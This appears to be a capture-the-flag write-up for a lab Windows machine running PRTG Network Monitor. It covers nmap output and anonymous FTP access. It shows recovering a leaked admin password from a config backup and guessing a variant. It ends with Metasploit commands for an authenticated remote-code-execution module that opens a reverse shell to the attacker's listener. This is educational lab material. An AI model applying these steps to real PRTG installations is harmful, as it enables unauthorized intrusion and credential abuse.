





# Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```java
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	
>	

4. Open the xml bak file
>	Found possible cred
>	
>	

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	
>	Using prtgadmin:PrTg@dmin2019 Success!
>	
>	

7.	find further vulnerability in current version
>	

8. 	searchsploit current version
>	

9.	using metasploit 
```
use exploit/windows/http/prtg_authenticated_rce
set admin_password PrTg@dmin2019
set RHOST $IP
set LHOST tun0	set LPORT 9001
run
```
>	
